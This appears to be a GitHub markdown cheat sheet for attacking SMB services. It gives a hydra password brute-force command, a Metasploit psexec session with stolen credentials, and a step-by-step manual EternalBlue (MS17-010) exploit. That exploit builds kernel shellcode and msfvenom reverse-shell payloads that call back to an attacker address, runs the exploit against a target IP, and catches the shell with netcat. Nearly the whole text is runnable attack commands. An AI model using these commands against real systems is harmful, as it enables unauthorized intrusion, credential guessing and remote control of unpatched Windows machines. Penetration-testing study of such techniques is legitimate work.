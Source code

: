 # SMB Exploits 

Most of the time, using SMB as the point of insertion is not the objective, however it's always important to check
for misconfigurations or vulnerabilities that can be exploited in any service. Here, there is a basic overview of
exploitating SMB services.

1. SMB Login Bruteforce 

	hydra -L [username list] -P [password list] 192.168.1.101 smb

2. PSexec SMB2Shell

	Once you have SMB login credential of target machine then with the help of the following module of 
	Metasploit you can sometimes obtain meterpreter session to access the remote shell.

	use exploit/windows/smb/psexec
	msf exploit windows/smb/psexec) > set rhost 192.168.1.101
	msf exploit(windows/smb/psexec) > set smbuser raj
	msf exploit(windows/smb/psexec) > set smbpass 123
	msf exploit(windows/smb/psexec) > exploit

3. Eternal Blue 
	
	MS17-010, or as it's more commonly known- the infamous "Eternal Blue", can be exploited through Metasploit
	but it can also be exploited manually. The Metasploit method is simple enough to understand, so the manual
	method is detailed here. 

	1. Look in the exploits/MS17-010/shellcode directory. This directory holds the kernel shellcode. 

	2. Assemble the x64 kernel shellcode with nasm:
	
		nasm -f bin exploits/MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
	
	3. Generate the payload with msfvenom:

		msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=192.168.0.29 --platform windows 
		-a x64 --format raw -o sc_x64_payload.bin
	
	4. Concatonate payload & shellcode: 

		cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin

	5. Assemble the x86 kernel shellcode with nasm:

		nasm -f bin exploits/MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
	
	6. Generate the payload with msfvenom:

		msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.0.29 --platform windows -a x86 
		--format raw -o sc_x86_payload.bin
	
	7. Concatonate payload & shellcode:

		cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
	
	8. Merge the two payloads using the included eternalblue_sc_merge.py script:
		
		python MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

	9. The eternalblue scripts are located in MS17-010/ and have the following targets:

		eternalblue_exploit7.py:

    		Windows Server 2008 & R2
    		Windows Server 2012 & R2 (x86)
    		Windows Server 2016 (x64)
    		Windows Vista
    		Windows 7

		eternalblue_exploit8.py:

   		Windows Server 2012 (x64)
    		Windows 8.1 & RT
    		Windows 10 (x64) (build < 14393)

	10. You can then, finally, run the exploit using:

		python MS17-010/eternalblue_exploit7.py 192.168.0.31 sc_all.bin

	    And listening for the reverse shell using: 

	    	nc -lvnp 443
	
